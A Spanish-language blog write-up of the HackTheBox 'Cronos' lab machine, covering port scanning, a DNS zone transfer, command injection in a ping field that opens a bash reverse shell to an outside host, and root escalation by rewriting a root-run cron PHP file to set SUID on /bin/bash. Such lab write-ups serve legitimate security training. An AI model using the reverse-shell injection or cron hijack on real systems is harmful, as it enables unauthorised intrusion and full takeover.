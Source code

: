 ```yaml
---
layout: single
author_profile: true
title: HTB cronos
excerpt: "Vamos a resolver la máquina cronos de HackTheBox. ¡Let's hack!"
date: 2022-12-21
classes: wide
header:
  teaser: /assets/images/cronos/01-inicio.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - Writeup
  - Cronos
---
```


<p style="text-align: center;">
<img src="/assets/images/cronos/02-tarjeta.png">
</p>

¡Hola!
En esta ocasión vamos a resolver de la máquina `cronos` de [HackTheBox](https://hackthebox.com/).
La máquina es nivel “Medium”, sin embargo, el nivel siempre se lo pones tú, al enfrentar estos retos, ¡vamos a ponernos hack!

## PREPARACIÓN

Para iniciar nuestra máquina, vamos a crear con nuestra función [mkhack](https://bast1ant1c.github.io/mkhack/) un directorio de trabajo con el nombre `cronos` y los subdirectorios `recon` junto con `exploit`, con el objetivo de organizar la información que recopilemos en la realización de la máquina.

```bash
mkhack cronos
cd !$/recon
```

## RECONOCIMIENTO  

Accedemos al directorio `recon` e iniciamos nuestra fase de reconocimiento sobre el objetivo por medio de nuestra utilidad [osping](https://bast1ant1c.github.io/osping/) detectando el tipo de sistema operativo basado en el `ttl` _time to live_ de una traza **ICMP**.

```bash
osping 10.10.10.13
 
[*] Detectando sistema operativo ...

[+] 10.10.10.13 ttl=63 >> Linux
```

Identificamos que es una maquina **Linux** debido a su ttl (time to live) correspondiente a 63 (Disminuye en 1 debido a que realiza un salto adicional en el entorno de HackTHeBox).

* TTL => 64	Linux
* TTL => 128	Windows

Continuamos con la enumeración de los **65535** puertos en la máquina. 

```bash
sudo nmap -p- --open -sS --min-rate 5000 -n -Pn 10.10.10.13 -oG ports | grep open
```
```bash
#Resultados
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
```

Luego de identificar los puertos abiertos `OPEN`, se procede a escanear servicios y versiones que puedan estar en nuestro objetivo.

```bash
nmap -p22,53,80 -sCV 10.10.10.13 -oG versions
```
```bash
#Resultados
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## RECONOCIMIENTO WEB
 
Iniciamos con el reconocimiento del puerto `80` por medio de la utilidad `whatweb` para identificar software que sea potencialmente vulnerable o de utilidad para nosotros.

```bash
whatweb 10.10.10.13
```
```bash
#Resultados
http://10.10.10.13 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.13], Title[Apache2 Ubuntu Default Page: It works]
```

Realizamos un descubrimiento con `nslookup` para identificar `DNS` asociados a la dirección IP.

```bash
nslookup
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.
```

Podemos evidenciar el `DNS` `cronos.htb`, por lo que vamos a agregar en el ficheros `/etc/hosts` esta información.

```bash
sudo vim /etc/hosts
#AGREGAR
10.10.10.13     cronos.htb
```

Ya podemos evidenciar un poco más de información en la pagina web, sin embargo vamos a hacer uso de la utilidad `dig`, para identificar subdominios de nuestro objetivo.

```bash
dig @10.10.10.13 cronos.htb axfr
```
```
#RESULTADOS
; <<>> DiG 9.16.15-Debian <<>> @10.10.10.13 cronos.htb axfr
; (1 server found)
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13
admin.cronos.htb.	604800	IN	A	10.10.10.13
ns1.cronos.htb.		604800	IN	A	10.10.10.13
www.cronos.htb.		604800	IN	A	10.10.10.13
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
```

Vamos a realizar el mismo procedimiento anterior, pero esta vez vamos a agregar el subdominio `admin.cronos.htb`.

```bash
sudo vim /etc/hosts
#AGREGAR
10.10.10.13     cronos.htb admin.cronos.htb
```

## WEB EXPLOIT + INTRUSION

Ahora que tenemos dominios y subdominios, procedemos a investigar un poco y encontramos un portal de acceso en el subdominio `admin.cronos.htb` al cual intentamos realizar un ataque `SQLi` exitoso.

<p style="text-align: center;">
<img src="/assets/images/cronos/03-page.png">
</p>

Al acceder podemos ver que podemos ejecutar el comando traceroute o ping a un objetivo especifico, por lo que vamos a tomar provecho de esta funcionalidad para ejecutar una reverse shell en bash.

Generamos un listener
```bash
nc -lnvp 4564
```

Ejecutamos la reverse shell en el campo de la pagina web y le damos enter para que ejecute el comando.
```bash
8.8.8.8; bash -c "bash -i >& /dev/tcp/10.10.14.2/4564 0>&1"
```

Reverse shell obtenida
```bash
#OUTPUT
www-data@cronos:/var/www/admin$ whoami
www-data
```

## ESCALADA DE PRIVILEGIOS

Una vez que tenemos acceso a la máquina, realizamos el escalamiento de privilegios, en este caso, revisando las tareas `cron`.

```bash
cat /etc/crobtab
```
```bash
#Resultados
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

Como podemos ver en los resultados anteriores, identificamos que `artisan` es una tarea que se ejecuta cada minuto con el usuario root, hay que tener en cuenta que tenemos acceso directamente a la ruta donde se ejecuta este script de php, por lo que simplemente vamos a eliminar el archivo `artisan` y generar uno nuevo habilitando con la funcion `system` el permiso `SUID` de `bash`, para finalmente aprovecharnos de este permiso configurado y obtener una shell de un usuario administrador.

Eliminar el archivo `artisan`
```bash
rm /var/www/laravel/artisan
```

Crear el nuevo archivo `artisan`
```bash
nano /var/www/laravel/artisan
<?php
        system("chmod u+s /bin/bash");
?>
```

Monitoreo del permiso `SUID` de `/bin/bash`
```bash
www-data@cronos:/dev/shm$ watch -n 1 ls -la /bin/bash
-rwxr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash -> SIN SUID
-rwsr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash -> CON SUID
```

Aprovechando el permiso `SUID`

```bash
www-data@cronos:/dev/shm$ bash -p
```

```bash
#Resultados
bash-4.3# whoami
root
```

## FLAGS

Una vez tenemos acceso a la máquina, tenemos la posibilidad de leer la flag `user` y `root` 

```bash
#USER
bash-4.3# find / -name user.txt 2>/dev/null | xargs head -c 10; echo
6394a949f7
```

```bash
#ROOT
bash-4.3# find / -name root.txt 2>/dev/null | xargs head -c 10; echo
4491f4cbdd
```

¡Hemos logrado completar la máquina `cronos` de HackTheBox!

<p style="text-align: center;">
<img src="/assets/images/cronos/04-finish.png">
</p>

_¡Que tengan un buen día en el planeta donde se encuentren!_

**Nos vemos en otro bit.**.
